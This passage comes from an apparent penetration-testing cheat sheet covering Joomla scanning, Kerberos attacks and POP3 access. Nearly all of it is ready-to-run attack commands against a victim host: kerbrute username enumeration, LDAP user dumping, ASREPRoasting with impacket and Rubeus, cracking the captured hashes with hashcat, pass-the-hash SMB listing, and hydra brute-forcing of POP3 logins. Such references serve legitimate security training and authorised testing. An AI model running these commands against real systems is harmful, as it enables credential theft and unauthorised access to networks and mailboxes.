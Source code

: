 
### 2.6.10 Joomla

```sh
joomscan --ec -u $VICTIM_IP # if joomla found
```


## 2.7 Kerberos - 88,749

```sh
# username enumeration with Kerbrute
./kerbrute userenum --dc DC_IP -d DOMAINNAME userlist.txt

# dump all LDAP users
impacket-GetADUsers -all -no-pass -dc-ip DC_IP DOMAIN.tld/
impacket-GetADUsers -all -dc-ip DC_IP DOMAIN.tld/user:password

# ASREPRoasting - Kerberos attack that allows password hashes to be retrieved
# for users that do not require pre-authentication (user has “Do not use
# Kerberos pre-authentication” enabled).
# Find ASREPRoastable users and password hashes (slash after domain required)
impacket-GetNPUsers -dc-ip DC_IP -usersfile found-users.txt DOMAIN.tld/
# be sure to crack the hashes to retrieve the passwords
hashcat -m 18200 /path/to/hashfile.txt /usr/share/wordlists/rockyou.txt --force

# alternate method (done locally on windows box):
# uses: https://github.com/GhostPack/Rubeus
Rubeus.exe asreproast /format:john /outfile:hash.txt

# list SMB shares with hash of asreproasted user
smbclient '\\VICTIM_IP\sharename' -L DC_IP -W DOMAIN -U username%NTHASH --pw-nt-hash
```


## 2.8 POP - 110,995

Post Office Protocol (POP) retrieves email from a remote mail server.

```sh
# banner grabbing
nc -nvC $VICTIM_IP 110
openssl s_client -connect $VICTIM_IP:995 -crlf -quiet

# basic scan
nmap -n -v -p110 -sV --script="pop3-* and safe" -oA nmap/pop3 $VICTIM_IP

# Bruteforcing
hydra -V -f -l USERNAME -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt $VICTIM_IP pop3
hydra -V -f -S -l USERNAME -P /path/to/passwords.txt -s 995 $VICTIM_IP pop3

# user enum / log in
nc -nvC $VICTIM_IP 110  # "-C" for \r\n line endings, required
telnet $VICTIM_IP 110   # alternate method
USER username
PASS password
LIST # gets list of emails and sizes
RETR 1 # retrieve first email
# try real (root) and fake users to see if there is a difference in error msgs
```

